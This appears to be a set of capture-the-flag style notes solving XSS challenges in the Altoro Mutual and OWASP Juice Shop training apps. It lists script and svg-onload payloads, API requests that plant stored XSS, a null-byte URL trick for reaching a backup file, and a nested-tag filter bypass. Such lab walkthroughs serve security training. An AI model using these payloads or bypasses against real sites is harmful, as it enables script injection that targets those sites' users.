 # XSS

## Altoro Mutual
### Reflective XSS
* Search for `<svg/onload=alert(1)>`

## Juice Shop

### Perform a reflected XSS attack with <script>alert("XSS")</script>.
* Track Orders
### Perform a DOM XSS attack with <script>alert("XSS")</script>.	
* Search
### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a client-side security mechanism.
* Submit a POST request to http://localhost:3000/api/Users with
* Content-Type: application/json

* Post Params
  * {"email": "<script>alert(\"XSS\")</script>", "password": "anything"}
  
### Perform a persisted XSS attack with <script>alert("XSS")</script> without using the frontend application at all.	

* Be authenticated
* Copy your Authorization header from an HTTP request submitted via browser.
* Submit a POST request to http://localhost:3000/api/Products with
* {"name": "XSS Juice", "description": "<script>alert(\"XSS\")</script>", "price": 23.99} as body,
* Content-Type: application/json
* Bearer ? as Authorization header, replacing the ? with the token you copied from the browser.

### Perform a persisted XSS attack with <script>alert("XSS")</script> bypassing a server-side security mechanism.
* Download http://localhost:3000/ftp/package.json.bak%2500.md
* change to package.json
* run dependency-check against the package.json
* sanitize:1.4.2 has a xss vuln. https://github.com/punkave/sanitize-html/issues/29
* Visit http://localhost:3000/#/contact.
* Enter <<script>XSS</script>script>alert("XSS")<</script>/script> as Comment
* Choose a rating and click Submit
* Visit http://localhost:3000/#/about for a first "XSS" alert (from the Customer Feedback slideshow)




